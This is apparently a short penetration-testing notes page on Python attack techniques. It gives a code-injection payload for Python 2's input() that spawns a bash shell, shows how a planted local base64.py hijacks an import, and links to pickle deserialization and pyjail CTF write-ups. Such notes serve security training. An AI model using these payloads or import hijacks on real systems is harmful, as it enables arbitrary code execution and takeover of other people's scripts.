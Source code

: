# Python

## python2 input

In python 2, the `input` function worked in an interesting manner.  It queried for user input, executed the input given to it directly, allowing us to, for example, have an integer returned directly from the result of the function.  However, this also allowed any arbitrary code to be injected.  In cases where you have a python 2 style input mechanism, simply write the following:

```py
__import__('os').system('/bin/bash')
```

In python 3 this was removed, and `raw_input` from python 2 replaced it.

## Module Overwrite

Consider the following program:

```py
import base64
print base64.b64decode('VW5pY29ybidzIGFyZSBraWNrIGFzcyE=')
```

Running it will output a base64 decoded string:

```bash
root@kali:~/pyexample# python example.py
Unicorn's are kick ass!
```

Let's create a file called base64.py in the same folder and include within it the following:

```py
def b64decode(oldinput):
    return 'Welcome to my Evil Function!'
```

Now we get a very different output:

```bash
root@kali:~/pyexample# ls
base64.py  base64.pyc  example.py
root@kali:~/pyexample# python example.py
Welcome to my Evil Function!
```

In module importing, the interpreter will first check the local directory before checking the installed modules.  Consequently, it is more than possible to take over a python scripts execution, even if we don't have write-access to it.

A good reference for how these things work is [this Stackoverflow post](https://stackoverflow.com/questions/31849378/whats-the-order-python-used-to-import-module).

## Pickle Deserialization

**Further Reading**  
[https://blog.nelhage.com/2011/03/exploiting-pickle/](https://blog.nelhage.com/2011/03/exploiting-pickle/)  
[https://sensepost.com/blog/2010/playing-with-python-pickle-%231/](https://sensepost.com/blog/2010/playing-with-python-pickle-%231/)  
[https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html)

## CTF Writeups

These are a collection of CTF writeups that may prove helpful if you find yourself against a Python Jail or environment.  Since it's such a popular language a python jail, such as [lshell](https://github.com/ghantoos/lshell), can be a surprisingly common vulnerability.

[PlaidCTF - Pyjail with character restrictions](http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/)

